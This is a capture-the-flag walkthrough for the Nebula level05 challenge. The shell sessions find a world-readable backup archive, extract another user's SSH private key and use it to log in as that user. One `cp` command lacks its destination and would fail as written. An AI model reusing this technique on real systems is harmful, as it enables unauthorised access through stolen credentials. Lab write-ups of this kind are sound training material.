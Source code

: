 # Challenge
Find and exploit the weak directory permissions.

Challenge Link: https://exploit.education/nebula/level-05/

# Solution
The challenge explicilty tells us to look for weak directory permissions so let's use `ls` to do just that.
```shell
level05@nebula:~$ ls -la /home/flag05/
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     180 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

We don't have any permissions for `.ssh` so let's look at `.backup` which we do have permissions for.
```shell
level05@nebula:~$ ls /home/flag05/.backup/
backup-19072011.tgz 
```

Looks like we found an archive. Let's make a copy to our home directory and take a look inside.
```shell
level05@nebula:~$ cp /home/flag05/.backup/backup-19072011.tgz
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ file backup-19072011.tgz
backup-19072011.tgz: gzip compressed data, from Unix, last modified: Tue Jul 19 02:38:48 2011
level05@nebula:~$ gzip -d backup-19072011.tgz
level05@nebula:~$ ls
backup-19072011.tar
level05@nebula:~$ file backup-19072011.tar
backup-19072011.tar: POSIX tar archive (GNU)
level05@nebula:~$ tar -xvf backup-19072011.tar
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

An SSH key! Let's see if we can log in as flag05 with it.
```shell
level05@nebula:~$ ssh -i ./.ssh/id_rsa flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

Success! We have completed level05.
